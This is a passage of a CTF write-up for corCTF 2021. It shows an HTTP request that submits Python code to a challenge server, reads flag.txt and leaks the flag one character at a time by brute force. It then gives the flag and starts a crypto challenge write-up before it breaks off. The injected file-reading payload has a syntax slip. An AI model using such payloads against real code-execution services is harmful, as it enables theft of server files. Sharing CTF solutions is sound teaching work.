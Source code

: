 ```
POST /yeetyeet HTTP/1.1
Host: yeetcode.be.ax
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://yeetcode.be.ax/yeet
Content-Type: text/plain;charset=UTF-8
Origin: https://yeetcode.be.ax
Content-Length: 136
Connection: close

def f(a, b):
  with open('flag.txt', 'r') as r:
    c= r.read()
  if c[0] == '§1§':
    return a+b
  else
    print('test')
f(1,6)
```
Where §1§ is a payload list with the characters abcdefghijklmnopqrstuvwxyz1234567890!#-.,{}()-_ with one char on each line. We manually switched the char we were testing in c after each hit and got the flag at last.
Flag:
```
corctf{1m4g1n3_cp_g0lf_6a318dfe}
```
---

## crypto/fibinary

### About the task
**Task description:**
*Warmup your crypto skills with the superior number system!*

**Task files:**
[enc.py](https://corctf2021-files.storage.googleapis.com/uploads/cbc718b0b14f91af5c231ed0b6091d2336484619d536bce505a34fa27ec90be8/enc.py), [flag.enc](https://corctf2021-files.storage.googleapis.com/uploads/034184c574279b6889c553d222d2f8c8f1725b56f70f9acb4bc716bc7cabf8df/flag.enc)

**Task author:**
*quintec*

**Task url:**
*https://2021.cor.team/challs*

### Write-up
After reading the task description and quickly looking at the files we are given a few things immediately stand out:
The file flag.enc seems to be written in some sort of binary
The enc.py program uses a homemade algorithm to encrypt the contents of "flag.txt".
